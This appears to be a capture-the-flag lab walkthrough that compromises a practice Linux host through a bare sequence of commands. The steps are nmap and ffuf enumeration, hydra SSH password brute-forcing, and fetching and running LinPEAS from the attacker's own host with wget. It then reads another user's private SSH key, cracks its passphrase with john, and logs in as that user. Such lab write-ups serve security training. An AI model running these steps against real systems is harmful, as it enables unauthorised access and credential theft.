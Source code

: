 10.10.162.125


### open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

### ping

```
$ ping 10.10.159.226
```


### nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```

                                                                                                                                                                                         
### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```


### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```

### login to user through ssh
```
$ ssh jan@10.10.162.125
```

### maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```

### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

# download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```

# make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

# run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```

# found possible private SSH keys 
/home/kay/ .ssh/id_rsa

# change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

# list files
```
jan@basic2:/home/kay$ ls
```

found pass.bak

# list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```

# change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

# list files
```
jan@basic2:/home/kay/.ssh$ ls
```

# found id_rsa

# cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```

# save ssh key
```
$ mousepad kay_id_rsa
```


# run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

# crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```


# chmod 
```
$ chmod 600 kay_id_rsa
```

# ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```

# list down files
```
kay@basic2:~$ ls
```

# print pass.bak
```
kay@basic2:~$ cat pass.bak
```













